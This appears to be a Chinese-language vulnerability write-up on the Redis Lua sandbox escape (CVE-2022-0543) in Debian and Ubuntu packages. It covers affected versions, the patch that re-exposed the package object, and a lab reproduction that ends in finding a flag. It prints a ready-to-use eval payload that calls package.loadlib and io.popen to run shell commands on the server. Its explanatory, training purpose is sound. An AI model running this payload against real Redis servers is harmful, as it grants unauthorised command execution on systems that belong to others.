

##### eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("     指令     ", "r"); local res = f:read("*a"); f:close(); return res' 0

影响范围：Debian系得linux发行版本+Ubuntu

	2.2 <= redis < 5.0.13
	2.2 <= redis < 6.0.15
	2.2 <= redis < 6.2.5
<!-- more -->

### 一、描述

​		影响范围：Debian系得linux发行版本+Ubuntu

​		其并非Redis本身漏洞，形成原因在于系统补丁加载了一些redis源码注释了的代码

​		揭露时间：2022.3.8

### 二、原理

​		redis在用户连接后可以通过eval命令执行Lua脚本，但是脚本跑在沙箱中，正常情况下无法执行命令读取文件，所以这个漏洞的本质是沙箱绕过。

Ubuntu/Debian/CentOS等这些发行版本会在原始软件的基础上打一些补丁包，其中给Redis打了一个的补丁,增加了一个include, 下面是Debian通过shell使用make生成补丁包的源码：

```c
debian/lua_libs_debian.c:
    echo "// Automatically generated; do not edit." >$@
    echo "luaLoadLib(lua, LUA_LOADLIBNAME, luaopen_package);" >>$@
    set -e; for X in $(LUA_LIBS_DEBIAN_NAMES); do \
        echo "if (luaL_dostring(lua, \"$$X = require('$$X');\"))" >>$@; \
        echo "    serverLog(LL_NOTICE, \"Error loading $$X library\");" >>$@; \
    done
    echo 'luaL_dostring(lua, "module = nil; require = nil;");' >>$@

```

- `luaLoadLib(lua, LUA_LOADLIBNAME, luaopen_package)`就是漏洞的来源

这段代码原本被注释掉，而这个补丁却重新把他写了进去，导致在Lua沙箱中遗留了一个对象package，攻击者可以利用package对象提供的加载动态链接库liblua里的函数逃逸。

```c
local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");
local io = io_l();
local f = io.popen("id", "r");
local res = f:read("*a");
f:close();
return res
```

注：不同系统下liblua5.1.so.0路径不同

​		io.popen("", "r"); 的第一个引号内为执行命令

连接后可以使用以下命令逃逸

```c
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

### 三、复现


​			 在靶场中启用镜像

​			一般情况下，redis运行在6379（默认端口），而在此镜像中映射于36770端口可以使用nmap扫描端口发现相应服务

​			使用kali的redis-cli尝试连接redis，进入后使用eval使用相关脚本 ls  /tmp 找到flag



该漏洞成功复现
